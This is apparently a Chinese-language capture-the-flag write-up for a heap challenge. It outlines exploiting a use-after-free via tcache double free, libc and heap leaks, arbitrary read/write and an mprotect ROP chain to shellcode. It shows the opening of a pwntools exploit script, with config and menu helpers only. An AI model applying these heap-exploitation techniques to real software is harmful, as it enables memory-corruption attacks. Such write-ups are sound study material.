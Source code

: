 程序直接给了 UAF，打的方式很多很自由，但受到`fgets`的影响不能直接 leak environ。这里我用了一种相对比较简单的方法。由于 tcache 堆块的 double free 检测是通过检查第二个字段的值来实现的，所以我们可以通过不断清 key 来重复释放一个 tcache 堆块来 leak heap 和 libc，通过 Tcache Attack 可以任意地址读写。

这里 leak stack 虽然不能直接通过分配堆块到 environ 来 leak，但我们依然可以通过 stdout (也是一种 no leak 场景下比较常用的技术) 或是一些 house 系列的任意地址读来完成。

之后就是 rop ，通过 mprotect 来 ret2shellcode。

```python
#! /usr/bin/env python3
from pwn import *
from ctools import *
from SomeofHouse import *

### CONFIG ========================================

context(os="linux", arch="amd64")

elf_path = './vuln'
libc_path = './libc.so.6'

config = {
    'host': '127.0.0.1',
    'port': 33087,
    'target': 'REMOTE',
    'args': [],
    'preload': [libc_path],
    'elf_path': elf_path,
    'libc_path': libc_path,
    'apath': '.',
}

TMUX_TERMINAL() # use tmux terminal
DEBUG = lambda s='', l=True, m=False: udebug(io, script=s, load=l, source=m)

cct(**config)
cct.init()

### CONFIG END ===================================

io = conn()
# context.log_level = "debug"
 
elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)

def add(idx, size, pad):
    io.sendlineafter(b'Choice', b'1')
    io.sendlineafter(b'Index', str(idx).encode())
    io.sendlineafter(b'Size', str(size).encode())
    io.sendlineafter(b'data', pad)

def show(idx):
    io.sendlineafter(b'Choice', b'3')
    io.sendlineafter(b'Index', str(idx).encode())

def free(idx):
    io.sendlineafter(b'Choice', b'4')
    io.sendlineafter(b'Index', str(idx).encode())

def edit(idx, pad):
    io.sendlineafter(b'Choice', b'2')
    io.sendlineafter(b'Index', str(idx).encode())
    io.sendlineafter(b'data', pad)

```
